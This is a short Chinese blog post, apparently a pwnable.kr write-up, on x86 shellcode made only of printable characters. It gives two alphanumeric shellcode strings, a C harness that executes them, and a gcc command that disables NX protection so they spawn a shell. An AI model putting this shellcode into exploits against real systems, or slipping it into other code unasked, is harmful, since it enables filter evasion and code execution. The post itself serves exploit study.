 ```yaml
---
title: 全是可见字符的shellcode
date: 2017-09-30 12:19:10
categories: 安全技术
tags: [shellcode]	
---
```


最近做了pwnable.kr上的一道题，收获颇丰！其中就有对全是可见字符组成的shellcode的总结，也就是本文。

### 全是可见字符的shellcode

>shellcode1: PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx
>
>shellcode2: PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJIRJTKV8MIPR2FU86M3SLIZG2H6O43SX30586OCRCYBNLIM3QBKXDHS0C0EPVOE22IBNFO3CBH5P0WQCK9KQXMK0AA



### 实验

首先写一个test.c文件:

```c
int main()
{
//    char shellcode[] = "PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx";
    char shellcode[] = "PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJIRJTKV8MIPR2FU86M3SLIZG2H6O43SX30586OCRCYBNLIM3QBKXDHS0C0EPVOE22IBNFO3CBH5P0WQCK9KQXMK0AA";
    (*(void (*)())shellcode)();
}
```

关闭NX保护:

> gcc -z execstack -o test test.c

运行之后获得shell

### 参考

[http://inaz2.hatenablog.com/entry/2014/07/11/004655](http://inaz2.hatenablog.com/entry/2014/07/11/004655)

